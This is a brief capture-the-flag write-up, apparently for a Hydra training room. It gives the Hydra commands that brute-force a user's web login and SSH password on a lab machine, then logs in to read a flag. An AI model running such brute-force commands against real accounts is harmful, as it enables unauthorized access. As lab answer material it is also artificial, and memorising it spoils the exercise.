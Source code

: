 
# Hydra writeup

### Task 1 
#### Use Hydra to bruteforce molly's web password. What is flag 1?

- To complete first task we need to use Hydra tool. The command to bruteforce login to website will be:
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
-

### Task 2
#### Use Hydra to bruteforce molly's SSH password. What is flag 2?
- To complete second task we have to change our command to bruteforce SSH:
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 -t 4 ssh
```
- Then we have to ssh to given machine using password we bruteforced.
```
ssh molly@<MACHINE-IP>
```
- Then simply cat flag2.txt



